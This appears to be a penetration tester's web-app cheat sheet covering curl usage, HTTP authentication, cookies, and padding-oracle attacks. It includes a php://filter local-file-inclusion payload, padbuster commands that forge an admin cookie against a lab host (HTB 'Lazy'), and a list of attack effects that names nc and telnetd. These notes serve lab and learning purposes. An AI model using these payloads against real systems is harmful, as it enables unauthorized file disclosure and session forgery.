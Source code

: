 # Web apps

## Command line GET & POST

    # curl -s "http://192.168.1.23/?lang=php://filter/convert.base64-encode/resource=fr"

    Curl options
    -s   : Avoid showing progress bar
    -D filename : Dump headers to a file, but - sends it to stdout
    -D - : Dump headers to a file, but - sends it to stdout
    -o /dev/null : Ignore response body


## HTTP authentication
HTTP also provides mechanisms to authenticate users. There are three methods available as part of the protocol:
- Basic Authentication: the username and password are encoded using base64 and sent using an Authorization header: 
`Authorization: basic YWRtaW46YWRtaW4K.`
=> `admin:admin`
- Digest Authentication: the server sends a challenge (unique information to be used), the client responds to this challenge (hash information including the password provided by the user). This mechanism prevents the password from being sent unencrypted to the server.
- NTLM authentication: that is mostly used in the Microsoft world and is quite similar to Digest.


## Cookies

````http
    # curl <host> /sample_page.html HTTP/2.0
    HTTP/2.0 200 OK
    Content-type: text/html
    Set-Cookie: yummy_cookie=choco
    Set-Cookie: tasty_cookie=strawberry
    Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

    GET /sample_page.html HTTP/2.0
    Host: www.example.org
    Cookie: yummy_cookie=choco; tasty_cookie=strawberry

    Note : Debian Php stores cookies at:
    # cat /var/lib/php5/sess_o8d7lr4p16d9gec7ofkdbnhm93
````
### Padding Oracle

- https://pentesterlab.com/exercises/padding_oracle/course
- HTB - Lazy

Decrypt
```
# padbuster http://10.10.10.18/index.php ICyCsquiFJ68tgENEeoN8mkNMKSGQZ3N  8  -cookies auth=ICyCsquiFJ68tgENEeoN8mkNMKSGQZ3N -encoding 0 
```

Encrypt
```
# padbuster http://10.10.10.18/index.php ICyCsquiFJ68tgENEeoN8mkNMKSGQZ3N  8  -cookies auth=ICyCsquiFJ68tgENEeoN8mkNMKSGQZ3N -encoding 0 -plaintext user=admin
```


### Escape
````
" %22
' %27
> %3E
< %3C
+ %2B
````
https://ascii.cl/url-encoding.htm



## Exploits
User inputs
- URL
- post
- cookies
- xml body

Type
- Script js, ruby, shell, ...
- Database : Sql, no sql, ...
- Deserialisation : python, xml, 

Effect
- Client side
    - Browser Cookies
    - Browser Sessions
- Server side
    - get files : ls, cat, 
    - telnetd
    - nc 
    - 
